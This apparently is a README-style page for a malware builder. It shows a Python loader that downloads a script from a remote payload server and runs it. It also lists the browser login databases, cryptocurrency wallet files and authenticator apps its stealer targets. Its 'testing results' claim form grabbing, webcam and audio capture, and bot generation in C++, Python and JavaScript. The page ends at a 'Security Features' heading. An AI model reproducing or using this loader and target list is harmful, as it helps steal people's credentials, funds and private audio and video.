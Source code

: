 ```python
# Python Loader
def start_loader(self):
    payload_url = "http://payload-server.com/payload.py"
    response = requests.get(payload_url, timeout=30)
    with open("temp_payload.py", "wb") as f:
        f.write(response.content)
    subprocess.Popen(["python", "temp_payload.py"])
```

### **Browser Stealer Capabilities**
- **Chrome**: `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data`
- **Firefox**: `%APPDATA%\Mozilla\Firefox\Profiles\`
- **Edge**: `%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Login Data`
- **Opera**: Profile data extraction

### **Crypto Stealer Capabilities**
- **Bitcoin Core**: `%APPDATA%\Bitcoin\wallet.dat`
- **Ethereum**: `%APPDATA%\Ethereum\keystore\`
- **Monero**: `%APPDATA%\Monero\wallets\`
- **Electrum**: `%APPDATA%\Electrum\wallets\`
- **Exodus**: `%APPDATA%\Exodus\exodus.wallet`
- **MetaMask**: Chrome extension data
- **2FA Apps**: Google Authenticator, Microsoft Authenticator, Authy

## 🎯 **TESTING RESULTS**

### **Feature Availability**
- ✅ **Form Grabber**: Available in all languages
- ✅ **Loader**: Available in all languages
- ✅ **Browser Stealer**: Available in all languages
- ✅ **Crypto Stealer**: Available in all languages
- ✅ **Webcam Capture**: Available in all languages
- ✅ **Audio Capture**: Available in all languages

### **Bot Generation Tests**
- ✅ **C++ Bot**: Generated with 8,209 characters of code
- ✅ **Python Bot**: Generated with 13,378 characters of code
- ✅ **JavaScript Bot**: Generated with full feature support
- ✅ **Multi-Feature**: All features working together

### **API Integration**
- ✅ **Feature Listing**: All 12 features available
- ✅ **Bot Generation**: Multi-language support working
- ✅ **Template System**: Pre-configured templates available
- ✅ **Web Interface**: All checkboxes and features functional

## 🔒 **SECURITY FEATURES**
